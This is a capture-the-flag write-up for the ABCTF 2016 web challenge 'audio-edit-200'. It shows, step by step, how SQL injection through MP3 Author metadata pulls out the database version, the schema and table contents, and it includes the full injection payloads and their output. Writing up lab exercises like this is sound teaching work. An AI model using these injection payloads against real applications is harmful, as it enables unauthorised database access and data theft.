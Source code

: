 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers user to upload an mp3 and therewith do some modifications.
In order to save the uploaded file it's inserted into a database and when
requested it shows 'Author', 'Title' and the filename.
The latter is created as the sha1sum of the mp3 content.

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadate aren't verified
and offer a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to an SQL-injection we have to create a special author and title field.
I used easyTAG but you can use whatever you like;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following metadata:

   
    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginng and the 'b' in the end where necessary because first an last character where
discarded... why so ever...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:
    
    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
    
... but it gaves us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around that using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF 
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag 
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3
    
And visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3
    
Setting the visualisation to 'Sonogram' finally showed the flag:

    ABCTF{m3t4_inj3cti00n}



## Other write-ups and resources

* http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html
